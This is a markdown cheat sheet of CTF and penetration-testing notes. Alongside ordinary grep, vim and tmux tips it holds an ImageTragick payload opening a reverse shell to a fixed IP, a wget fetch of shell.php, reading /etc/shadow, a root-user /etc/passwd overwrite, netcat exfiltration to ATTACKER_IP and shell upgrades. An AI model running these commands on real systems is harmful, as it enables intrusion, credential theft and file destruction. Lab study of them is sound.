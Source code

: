 [back](../README.md)
#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```
---
#### scan from 1 to 100 ports with nc
```sh
for i in {1..100};do nc $IP $i;echo "";done
```
---
#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
---

#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
echo "11 00 34 5f" | xxd -r -p #from bytes to letters

`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`

cat ./-

file */{.,}* #every type of file in folder
du -b -a | grep 1033 #size of file
sort data.txt | uniq -u #uniq lines

cat .download.dat | xxd -r -p #like strings
```

---
#### if command too long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```
---
#### Decompress a gzip file:
```sh
gzip -d file.gz
```
---
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```
---
#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```
---
#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
---
#### NFS share
```
showmount -e $IP
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```
#### if 2049 port is open (mount)
```
showmount -e $IP
mount -t nfs $IP:/mnt/backups /mnt/loot
```
#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```
---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

---
#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"             # Recursively search for lines
grep -n                      # show numbers of lines
grep -i                      # do not care abuot regex
grep -c                      # how many times
grep linux * -r              # recursive  in all files
# точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#'                      # begins with
'^$'                         # пустые строки
-e '^(#|$)'                  # начинается или с # или с $(пустая строка)
grep -e 'colou?r'            # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root'               # only word root, not asdrootas
\grep                        # unalias
-A5                          # five line after the math
-B5                          # before
-C5                          # before and after
-e '[0-9]{5,6}/tcp' file.txt # от 5 до 6 цифр от 0 до 9
-E '[0-9]$'                  # number at the end of line
-E '\s*'                     # space or tab 
+                            # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### ftp
```
ftp -A $IP #connect anon

prompt off
mget * #download all files
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### tmux
```
ctrl b d # сохранить сессию и выйти из нее
cb p     # previous window
cb n     # next window
cb ,     # rename window
cb c     # create window
cb w     # list windows
tmux new -s [name_of_new_window]
cb :set -g mouse on
```
#### magic numbers
png
```
89504E470D0A1A0A
```
gif
```
GIF87a    474946383761
GIF89a    474946383961
```

#### mv multiple files
```
mv -t DESTINATION file1 file2 file3
```

---

#### run shell as other user
```
sudo -u user bash
```
---

#### shells
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
---
